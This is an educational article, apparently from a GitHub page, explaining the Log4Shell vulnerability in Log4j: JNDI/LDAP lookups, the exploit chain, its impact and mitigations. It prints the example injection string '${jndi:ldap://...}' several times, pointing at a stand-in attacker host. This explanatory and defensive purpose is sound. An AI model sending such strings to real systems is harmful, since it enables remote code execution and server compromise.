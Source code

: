# Log4Shell Attack (CVE-2021-44228)

A detailed explanation of the Log4Shell attack (CVE-2021-44228), broken down for clarity.

## What is the Log4j Attack (Log4Shell)?

The **Log4j attack**, officially known as **Log4Shell** (CVE-2021-44228), was a critical, zero-day vulnerability in the ubiquitous **Log4j** Java logging library. Discovered and publicly disclosed in December 2021, it is considered one of the most severe cybersecurity vulnerabilities ever due to its ease of exploitation, widespread impact, and the potential for complete system takeover.

At its core, the vulnerability allowed an attacker to remotely execute any code of their choice on a server or application that used a vulnerable version of Log4j. This could lead to data theft, ransomware deployment, unauthorized access, and total compromise of the system.

---

## 1. The Culprit: What is Log4j?

To understand the attack, you must first understand the tool.

- **Log4j** is an open-source **logging utility** developed by the Apache Software Foundation.
- It is written in Java and is used by countless applications, websites, and services to record events—like errors, user actions, and system status—into log files for later review.
- Its popularity stems from its reliability and flexibility. It's a fundamental building block of the internet, used in everything from enterprise software (like VMware, Salesforce) to popular games (like Minecraft) and cloud services.

---

## 2. The Technical Heart of the Vulnerability: JNDI and LDAP

The flaw was not in the act of logging itself, but in a specific **feature** of Log4j that few developers knew about or used.

**Key Concepts:**

- **JNDI (Java Naming and Directory Interface):** A Java API that allows applications to look up (fetch) data and resources (like objects) from external directories using a name. Think of it like a phonebook for software components.
- **LDAP (Lightweight Directory Access Protocol):** A common protocol used for accessing and maintaining distributed directory information services (like Microsoft Active Directory). It's one of the services JNDI can talk to.
- **Lookups:** Log4j supports a feature called "lookups," which allow it to add dynamic, external information into log messages. For example, it can look up and insert environment variables.

**The Fatal Flaw:**

The vulnerability existed because Log4j's lookups were not restricted. An attacker could craft a **malicious string** that, when logged by a vulnerable application, would force Log4j to use JNDI to fetch a remote, attacker-controlled Java object and execute it.

---

## 3. How the Attack Works: Step-by-Step

Here’s a simplified breakdown of the exploit chain:

1. **Craft the Malicious Payload:** An attacker creates a special string that looks like this:
   ```${jndi:ldap://evil-attacker-server.com:1234/Exploit}```

2. **Trigger the Log Entry:** The attacker finds a way to get this string processed by the vulnerable application. This is shockingly easy. The string can be submitted through **any user-input field** that gets logged. Common examples include:
   - A search box on a website
   - An HTTP header (like `User-Agent` or `X-Forwarded-For`)
   - A username in a login form
   - A chat message in a game (this is how it was first discovered in Minecraft)

3. **The Application Logs It:** The application, doing its normal job, receives this string and passes it to Log4j to be written to the log file.

4. **Log4j Interprets the Lookup:** Log4j sees the `${jndi:...}` syntax and interprets it as a command. It connects to the attacker's server (`evil-attacker-server.com`) via the LDAP protocol.

5. **The Attacker's Server Responds:** The malicious LDAP server responds with a reference to a remote Java class file (`Exploit.class`) hosted elsewhere, perhaps on a simple HTTP server.

6. **The Application Fetches and Executes the Payload:** The vulnerable application fetches this malicious `Exploit.class` file and **executes it automatically**.

7. **Complete Compromise:** The executed code runs with the same permissions as the main application. This gives the attacker a foothold on the server, allowing them to:
   - Install malware or ransomware.
   - Steal sensitive data.
   - Use the server as a pivot to attack other internal systems.
   - Launch cryptocurrency miners.

```mermaid
flowchart TD
    A[Attacker Crafts Malicious String<br>e.g. ${jndi:ldap://evil.com/Exploit}] --> B[Submits string via any input<br>Search box, HTTP Header, Username, etc.]
    B --> C{Vulnerable App<br>logs the string}
    C --> D[Log4j parses the string<br>sees JNDI lookup command]
    D --> E[Log4j sends request to<br>Attacker's LDAP Server evil.com]
    E --> F[Attacker's LDAP server responds<br>with location of malicious Java class]
    F --> G[Vulnerable App downloads<br>& executes the malicious class]
    G --> H[Server Compromised<br>Ransomware, Data Theft, Backdoor]
```

---

## 4. Why Was It So Dangerous?

1. **Ubiquity:** Log4j is embedded in tens of thousands of applications and services across the globe. The potential attack surface was massive.
2. **Ease of Exploitation:** Attackers didn't need sophisticated skills or special access. They just needed to send a simple string. Automated scanners began exploiting it within hours of its disclosure.
3. **Difficulty in Patching:** Because Log4j is a *library* buried deep within other software's code, many companies didn't even know they were using it. Identifying all vulnerable systems was a monumental task.
4. **Multiple Attack Vectors:** Any data that could be logged was a potential entry point, making it very hard to defend against with traditional firewalls or input filters.

---

## 5. Mitigation and Response

The response was a global, coordinated effort by cybersecurity teams. Mitigation strategies included:

1. **Patching (The Primary Solution):** The Apache Foundation released urgent patches. Organizations were advised to immediately update Log4j to version **2.17.1** or later.
2. **Mitigation Steps (If Patching Wasn't Immediate):**
   - Setting the `LOG4J_FORMAT_MSG_NO_LOOKUPS` environment variable to `true`.
   - Removing the `JndiLookup` class from the Log4j jar file.
3. **Network Monitoring:** Security teams deployed rules in Intrusion Detection/Prevention Systems (IDS/IPS) to block traffic containing the tell-tale `${jndi:` pattern.
4. **WAF (Web Application Firewall) Rules:** WAFs were quickly updated to filter out requests containing JNDI lookup strings.

---

## Summary (In a Nutshell)

| Aspect | Explanation |
| :--- | :--- |
| **What was it?** | A critical Remote Code Execution (RCE) vulnerability in the Log4j logging library. |
| **Official Name** | **CVE-2021-44228** (aka **Log4Shell**) |
| **How did it work?** | By tricking a vulnerable application into logging a special string `${jndi:ldap://attacker.com/}`, which forced Log4j to fetch and execute malicious code from an attacker-controlled server. |
| **Why was it bad?** | Extremely easy to exploit, affected a huge percentage of the internet, and was difficult to find and patch everywhere. |
| **The Lesson** | It highlighted the critical risks hidden within the software supply chain—a single flaw in a common, open-source library can threaten the entire digital ecosystem. It forced a massive shift towards Software Bill of Materials (SBOM) to improve transparency. |